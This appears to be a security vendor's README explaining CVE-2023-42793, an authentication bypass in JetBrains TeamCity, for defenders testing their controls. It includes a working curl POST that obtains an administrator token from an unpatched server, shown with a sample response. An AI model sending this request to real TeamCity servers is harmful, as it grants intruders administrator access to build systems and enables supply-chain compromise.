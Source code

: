 # JetBrains TeamCity CVE-2023-42793 PoC Exploit
CISA released a joint advisory on the Russian nation-state advanced persistent threat, CozyBear. CozyBear is observed to exploit an unauthenticated remote code execution vulnerability found in JetBrains TeamCity software for data exfiltration and possibly supply chain attacks.<br><br>
In this repo, Picus provides a Proof-of-Concept exploit for the CVE-2023-42793 vulnerability.

Test security controls against the CVE-2023-42793 vulnerability exploit 
--------------------------------------
Picus can help you simulate the CVE-2023-42793 vulnerability exploits for free. No setup or signup is required.<br>
Use [Picus Emerging Threat Simulator](https://insights.picussecurity.com/emerging-threat-simulator-announcement?utm_source=github&utm_medium=organic+social&utm_campaign=PLS+Offensive+-+ET+Simulator) and test your defenses in a few clicks.<br> 
If you are looking for more detailed information, check out our blog post: [CVE-2023-42793: CozyBear Targets Software Developers Exploiting JetBrains TeamCity](https://www.picussecurity.com/resource/blog/cve-2023-42793-cozybear-targets-software-developers-exploiting-jetbrains-teamcity)

CVE-2023-42793 Proof-of-concept (POC)
----------------------
CVE-2023-42793 vulnerability is an authentication bypass vulnerability. The vulnerability is found in the "RequestInterceptiors.java" file, and it is caused by the wildcard path "/**/RPC2" in the "myPreHandlingDisabled" PathSet. If any incoming HTTP request matches the wildcard path "/**/RPC2", the TeamCity server does not perform authentication checks.<br>
Adversaries abuse this vulnerability to obtain an access token by sending an HTTP POST request to "/app/rest/users/id:1/tokens/RPC2" endpoint.<br>
In the example below, RPC2 is the adversary-given name for the requested token, and it allows adversaries to gain access to an authentication token with the privileges of the user with the ID of 1, which is always the administrator created during system installation.

#### Example CVE-2023-42793 Exploit:
```bash
//Attacker-crafted POST request
curl -X POST http://<TeamCity_Server_IP>:8111/app/rest/users/id:1/tokens/RPC2

//TeamCity Server's response with Administrator authentication token
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2023-11-20T12:22:12.45Z" value="<Administrator_Token>"/>
```

Disclaimer
----------
©2024 Picus Security <br>
All rights reserved.
